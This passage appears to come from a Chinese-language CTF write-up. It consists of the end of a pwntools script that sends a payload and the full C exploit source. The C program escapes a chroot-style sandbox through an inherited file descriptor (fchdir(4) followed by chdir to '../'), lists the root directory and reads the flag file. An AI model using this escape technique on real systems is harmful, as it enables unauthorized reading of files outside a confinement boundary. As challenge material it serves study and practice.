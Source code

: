 ```python
    payload = f.read()
    runbin(len(payload)+1, payload, '')
    io.interactive()
    io.close()
```

#### exp-C部分：

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <fcntl.h>
#include <dirent.h>
#include <stdlib.h>
//gcc -o exploit ./exploit.c -masm=intel -no-pie -static

void show_dir(const char *path){
    DIR *dirp; 
    struct dirent *dp;
    dirp = opendir(path); 
    while ((dp = readdir(dirp)) != NULL) { 
        printf("%s\n", dp->d_name );
    }      
    (void) closedir(dirp); 
}

void catflag(char * flag)
{
    FILE * f = fopen(flag, "r");
    char buf[60] = {0};
    fread(buf, 1, 60, f);
    fclose(f);
    write(1,buf,60);
    return;
}

int main(int argc, const char **argv, const char **envp)
{
    setvbuf(stdout,0,2,0);
    fchdir(4);
    chdir("../../../../../../../");
    show_dir(".");
	catflag("flag");
    return 0;
}
```





